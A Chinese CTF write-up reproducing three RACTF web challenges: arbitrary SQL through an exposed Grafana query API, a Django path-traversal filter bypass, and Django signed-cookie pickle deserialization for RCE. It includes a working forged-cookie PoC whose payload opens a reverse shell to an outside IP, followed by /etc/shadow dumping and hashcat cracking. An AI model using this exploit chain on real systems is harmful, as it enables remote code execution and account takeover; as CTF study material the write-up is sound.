

# 前言

最近向Y4师傅学习，慢慢开始打国外的比赛。13号-16号的`RACTF`当时看了一下做出来人数最多的Web题，发现一点头绪都没有，就直接爬了，感觉这个比赛可能难度挺大的。还是有些畏难了。今天早上看到Y4师傅发了这个比赛的WP，我又去官网上看了一下，部分的Web的WP也发了，而且题目环境也都没关，所以就又去做了一下，不会的Web题如果有wp的话也跟着wp学习了一下进行了复现。


# Really Awesome Monitoring Dashboard

用的是`Grafana v8.1.1`，查了一下没找到这个版本的洞，直接人就懵了。后台也进不去，毫无思路。。。


仪表板上面的数据一直在变化，说明可能是js一直动态的请求api，也就是所谓的动态网页。用一下f12的`Network`，或者bp一直抓包去看，可以发现这么一条api请求：

```http
POST /api/ds/query HTTP/1.1
Host: 193.57.159.27:56555
Content-Length: 388
accept: application/json, text/plain, */*
x-grafana-org-id: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
content-type: application/json
Origin: http://193.57.159.27:56555
Referer: http://193.57.159.27:56555/?orgId=1&refresh=5s
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: redirect_to=%2Fplaylists%3F
Connection: close

{"queries":[{"queryText":"SELECT host,status FROM logs;","queryType":"table","rawQueryText":"SELECT host,status FROM logs;","refId":"A","timeColumns":[],"datasource":"sqlite","datasourceId":1,"intervalMs":30000,"maxDataPoints":590}],"range":{"from":"2021-08-18T01:57:14.304Z","to":"2021-08-18T07:57:14.304Z","raw":{"from":"now-6h","to":"now"}},"from":"1629251834304","to":"1629273434304"}
```

发现SQL语句直接写在了JSON中，相应中给出了SQL语句的执行结果，所以相当于这个SQL语句的执行api直接暴漏出来了，可以执行任意SQL语句。

根据`datasource:sqlite`，知道了`sqlite`数据库。`sqlite`的注入很少见，去查了一下，`sqlite`的每一个数据库就是一个文件。

查一下表名和创建表执行的SQL语句：

```sql
select tbl_name,sql from sqlite_master
```

```json
"values":[["logs","flags"],["CREATE TABLE \"logs\" (\n\t\"host\"\tTEXT NOT NULL,\n\t\"status\"\tTEXT NOT NULL\n)","CREATE TABLE \"flags\" (\n\t\"challenge\"\tINTEGER NOT NULL,\n\t\"flag\"\tTEXT NOT NULL\n)"]
```

因此直接查flags表即可得到`flag`：

```sql
select flag from flags
```


# Emojibook

怪不得这么多人做出来，确实不是很难（非预期太严重了）。

把源码下载下来看一下，是个`django`的工程，第一次接触，只能勉强的去看关键的逻辑。

注册登录之后的创建note和查看note处的代码：

```python
def create_note(request: HttpRequest) -> HttpResponse:
    if request.method == "POST":
        form = NoteCreateForm(request.POST, user=request.user)
        if form.is_valid():
            instance = form.save()
            return HttpResponseRedirect(redirect_to=reverse("note", kwargs={"pk": instance.pk}))
    else:
        form = NoteCreateForm(user=request.user)
    return render(request, "create.html", {"form": form})


def view_note(request: HttpRequest, pk: int) -> HttpResponse:
    note = get_object_or_404(Note, pk=pk)
    text = note.body
    for include in re.findall("({{.*?}})", text):
        print(include)
        file_name = os.path.join("emoji", re.sub("[{}]", "", include))
        with open(file_name, "rb") as file:
            text = text.replace(include, f"")

    return render(request, "note.html", {"note": note, "text": text})
```

可以发现保存的`note.body`里面的值会寻找`{{}}`里面的，然后进行路径的拼接，然后读那个文件然后`base64`加密渲染到前端。

`os.path.join`的一个问题就是，如果有一个组件是一个绝对路径，则在它之前的所有组件均会被舍弃。

所以我们的`include`给绝对路径`/flag.txt`，前面的`emoji`就没有影响了。

但是有个问题是`save`：

```python
    def save(self, commit=True):
        instance = super(NoteCreateForm, self).save(commit=False)
        instance.author = self.user
        instance.body = instance.body.replace("{{", "").replace("}}", "").replace("..", "")

        with open("emoji.json") as emoji_file:
            emojis = json.load(emoji_file)

            for emoji in re.findall("(:[a-z_]*?:)", instance.body):
                instance.body = instance.body.replace(emoji, "{{" + emojis[emoji.replace(":", "")] + ".png}}")

        if commit:
            instance.save()
            self._save_m2m()

        return instance
```

关键是`instance.body = instance.body.replace("{{", "").replace("}}", "").replace("..", "")`，给替换给空了。但是很明显的，可以绕过，构造：

```python
{..{/flag.txt}..}
```

再base64解码即可得到flag：

```http
csrfmiddlewaretoken=bNDnx7f3m8CerN3bmcGLCSMNxU2hIqA5Z2eo7DqrZWsGbKP9plFRgRkvpOaUp3pg&name=1&body={..{/flag.txt}..}
```

非预期，而且很关键的就是，可以搭顺风车。


# Emojibook 2

修复了非预期，想了很久也没做出来，还是自己见识的东西太少了。看了一下Y4师傅的wp学习了一下。


实际上我看`setting.py`的时候注意到了`SECRET_KEY`，只是不知道有什么用。实际上思维再开阔一点，直接搜django的rce，也可以搜出来这么个`session`的反序列化rce。网上的文章很多，说白了就是SECRET_KEY知道了，而且是这个配置：

```python
SESSION_ENGINE = "django.contrib.sessions.backends.signed_cookies"
SESSION_SERIALIZER = "django.contrib.sessions.serializers.PickleSerializer"
```

至于`SECRET_KEY`，直接利用那个文件读取去读`/app/notebook/settings.py`即可，只是单纯的读不到`/flag.txt`，其他的文件都可以读。

然后直接拿POC打就可以了：

```python
from django.core.signing import TimestampSigner, b64_encode
from django.utils.encoding import force_bytes
from django.conf import settings
import pickle
import os

class PickleRCE(object):
    def __reduce__(self):
        return (os.system,("""python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("118.31.168.198",39876));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'""",))

SECRET_KEY = 'wr`BQcZHs4~}EyU(m]`F_SL^BjnkH7"(S3xv,{sp)Xaqg?2pj2=hFCgN"CR"UPn4'
settings.configure(DEFAULT_HASHING_ALGORITHM='sha256')  # SECRET_KEY 参数的值为 demo Django 项目的 SECRET_KEY 值
def rotten_cookie():
    key = force_bytes(SECRET_KEY)
    salt = 'django.contrib.sessions.backends.signed_cookies'
    base64d = b64_encode(pickle.dumps(PickleRCE())).decode()
    return TimestampSigner(key, salt=salt).sign(base64d)

forge_sessionid = rotten_cookie()
print(forge_sessionid)

```


一个很大的坑点就是，这个session要在linux下生成，windows生成的不对，坑了我好久呜呜呜。

然后直接请求就可以反弹shell了：

```http
GET / HTTP/1.1
Host: 193.57.159.27:49078
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://193.57.159.27:49078
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://193.57.159.27:49078/new/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie:sessionid=gANjcG9zaXgKc3lzdGVtCnEAWNIAAABweXRob24gLWMgJ2ltcG9ydCBzb2NrZXQsc3VicHJvY2VzcztzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKTtzLmNvbm5lY3QoKCIxMTguMzEuMTY4LjE5OCIsMzk4NzYpKTtzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSxzdGRpbj1zLmZpbGVubygpLHN0ZG91dD1zLmZpbGVubygpLHN0ZGVycj1zLmZpbGVubygpKSdxAYVxAlJxAy4:1mGJbx:xsuOk_HfrnmF1eTgZpadluH3SIYC7YLhKioVt3YBQLA
Connection: close


```


拿到shell发现`/flag.txt`没权限读：



这里需要提权。读`/etc/passwd`发现多了个admin用户，而且`/etc/shadow`同样可以读：

```shell
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
admin:x:1000:1001::/home/admin:/bin/bash
web:x:999:999::/home/web:/bin/bash
$ cat /etc/shadow
root:*:18829:0:99999:7:::
daemon:*:18829:0:99999:7:::
bin:*:18829:0:99999:7:::
sys:*:18829:0:99999:7:::
sync:*:18829:0:99999:7:::
games:*:18829:0:99999:7:::
man:*:18829:0:99999:7:::
lp:*:18829:0:99999:7:::
mail:*:18829:0:99999:7:::
news:*:18829:0:99999:7:::
uucp:*:18829:0:99999:7:::
proxy:*:18829:0:99999:7:::
www-data:*:18829:0:99999:7:::
backup:*:18829:0:99999:7:::
list:*:18829:0:99999:7:::
irc:*:18829:0:99999:7:::
gnats:*:18829:0:99999:7:::
nobody:*:18829:0:99999:7:::
_apt:*:18829:0:99999:7:::
admin:$6$5xxn5hO/ObyxE5zP$BQdMGENys9X0XZKCQtYibbNoWb0FG.NPE1JOivxJzzMDmpasU3OTQbmt1QtPypH.Cf6gGDJaZ17znB6RWxDpy0:18852:0:99999:7:::
web:!:18852::::::
$

```


`admin`的hash值知道了，可以想办法爆破来得到`admin`账号的密码。

之所以要提权`admin`用户，是因为考虑到`/flag.txt`是flag用户组可读，看一下admin：

```shell
$ groups admin
admin : admin flag
$

```

也是`flag`用户组的，因此可以读`/flag.txt`

利用kali自带的hashcat或者john爆破都可以：

```shell
feng@feng:~/桌面$ hashcat -m 1800 -a 0 -o found.txt 1.hash /usr/share/john/password.lst
hashcat (v6.0.0) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 1408/1472 MB (512 MB allocatable), 1MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Initializing backend runtime for device #1...
ls
Host memory required for this attack: 64 MB


[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => Dictionary cache built:
* Filename..: /usr/share/john/password.lst
* Passwords.: 3559
* Bytes.....: 26325
* Keyspace..: 3559
* Runtime...: 0 secs

                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$5xxn5hO/ObyxE5zP$BQdMGENys9X0XZKCQtYibbNoWb0FG.N...WxDpy0
Time.Started.....: Wed Aug 18 19:46:04 2021 (5 secs)
Time.Estimated...: Wed Aug 18 19:46:09 2021 (0 secs)
Guess.Base.......: File (/usr/share/john/password.lst)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      433 H/s (6.38ms) @ Accel:16 Loops:1024 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2096/3559 (58.89%)
Rejected.........: 0/2096 (0.00%)
Restore.Point....: 2080/3559 (58.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4096-5000
Candidates.#1....: 1qaz2wsx -> 999999

Started: Wed Aug 18 19:45:13 2021
Stopped: Wed Aug 18 19:46:10 2021
feng@feng:~/桌面$ ls
1.hash  1.jpg  1.py  backImg.jpg  found.txt  google-chrome.desktop  misc  output  payload.c  payload.so  tools
feng@feng:~/桌面$ cat found.txt
$6$5xxn5hO/ObyxE5zP$BQdMGENys9X0XZKCQtYibbNoWb0FG.NPE1JOivxJzzMDmpasU3OTQbmt1QtPypH.Cf6gGDJaZ17znB6RWxDpy0:999999

```

爆出来密码是999999，切换成`admin`用户读flag即可：

```shell
$ su admin
Password: 999999
cat /flag.txt
ractf{dj4ng0_lfi_rce_not_unintended}
```


学到了学到了！


暂时复现这些叭。
